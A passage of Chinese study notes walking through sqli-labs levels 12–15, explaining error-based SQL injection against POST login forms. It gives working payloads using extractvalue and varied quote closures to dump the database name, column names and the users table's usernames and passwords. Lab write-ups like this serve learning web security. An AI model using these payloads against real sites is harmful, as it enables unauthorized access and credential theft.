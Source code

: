 `uname=admin"  and extractvalue(1,concat('~',(select group_concat(column_name) from information_schema.columns where table_name='users')))  and "  &passwd=admin&submit=Submit`

还是由于显示的问题，所以采用where和not in的属性对其进行限制与显示新的数据

4.其余爆用户名和密码的方式与之前一样

`uname=admin" and extractvalue(1,concat('~',(select group_concat(username,'~',password) from users))) and " &passwd=admin&submit=Submit`




***
# less 13(POST单引号变形双注入)

## 原理

基于报错的注入

## 步骤

1.首先尝试单引号注入，根据报错信息得知闭合方式是')

2.`uname=admin') and extractvalue(1,concat(0x7e,(select database())))  and ('`

其余的过程与上一关基本相同

***
# less 14(POST单引号变形双注入)

## 原理

依旧是根据报错爆名

## 步骤

1.还是单引号找注入点，发现没有回显，猜测单引号被双引号所包裹，所以尝试双引号显示了错误信息。

2.`uname=admin" and extractvalue(1,concat(0x7e,(select database()))) and "  &passwd=admin&submit=Submit`

可以发现凡是用到报错函数的句式都长得非常相似，其整体思路也是相同的

具体爆库名表命列名payload学习见上，唯一需要注意的就是闭合方式

***


# less 15(基于bool型/时间延迟单引号POST型盲注)

## 原理
